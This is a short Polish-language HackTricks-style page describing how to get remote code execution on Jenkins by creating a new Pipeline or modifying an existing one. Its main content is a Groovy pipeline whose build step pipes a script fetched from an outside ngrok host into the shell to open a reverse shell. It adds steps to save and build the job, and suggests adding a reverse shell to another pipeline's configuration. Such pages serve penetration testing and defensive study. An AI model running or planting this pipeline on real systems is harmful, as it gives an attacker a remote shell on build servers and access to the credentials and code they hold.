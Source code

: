# Jenkins RCE Tworzenie/Modyfikowanie Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Tworzenie nowego Pipeline

W "Nowy element" (dostępne w `/view/all/newJob`) wybierz **Pipeline:**

![](<../../images/image (235).png>)

W **sekcji Pipeline** wpisz **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Na koniec kliknij **Zapisz**, a następnie **Buduj teraz**, a potok zostanie wykonany:

![](<../../images/image (228).png>)

## Modyfikowanie potoku

Jeśli masz dostęp do pliku konfiguracyjnego jakiegoś skonfigurowanego potoku, możesz po prostu **zmodyfikować go, dodając swój reverse shell**, a następnie go wykonać lub poczekać, aż zostanie wykonany.

{{#include ../../banners/hacktricks-training.md}}
